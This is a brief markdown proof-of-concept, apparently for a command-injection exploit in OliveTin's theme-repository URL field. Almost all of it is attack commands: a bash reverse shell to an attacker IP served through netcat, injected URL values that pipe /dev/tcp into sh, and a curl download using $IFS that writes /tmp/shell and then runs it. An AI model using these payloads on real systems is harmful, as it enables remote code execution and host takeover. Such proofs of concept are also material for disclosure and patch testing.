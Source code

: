 on attack box make a rev shell file
```
echo "bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1" > shell.sh
```

then run netcat on port 80 (cant have any special ports)
```
nc -lvp 80 < shell.sh
```

from the olivetin theme repo then (only from docker container)
```
http://a;sh</dev/tcp/<attacker_ip>/80
```

on service(.deb file or .rpm) this writes to the host
```powershell
http://;/usr/bin/curl$IFS"http://<attcker_ip>/shell"$IFS"-o"$IFS"/tmp/shell"
```
then in a second command do to get shell
```powershell
http://;bash$IFS/tmp/shell
```
